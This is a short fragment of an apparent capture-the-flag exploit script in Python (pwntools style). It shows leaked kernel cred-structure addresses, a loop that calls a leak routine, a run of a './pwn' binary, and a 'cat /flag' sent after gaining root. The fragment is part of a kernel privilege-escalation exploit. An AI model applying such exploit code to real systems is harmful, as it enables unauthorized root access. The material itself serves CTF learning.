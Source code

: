 ```python
[+] cred -> 0xffff99cb021fa180
[+] cred -> 0xffff99cb021faf00
[+] cred -> 0xffff99cb021fab40
[+] cred -> 0xffff99cb021faa80
[+] cred -> 0xffff99cb021facc0
'''

for _ in range(3):
    leak()

sp( './pwn' ) # cred should be the same as first leak

y.sendlineafter( '/tmp #' , 'cat /flag' ) # root !

y.interactive()
```
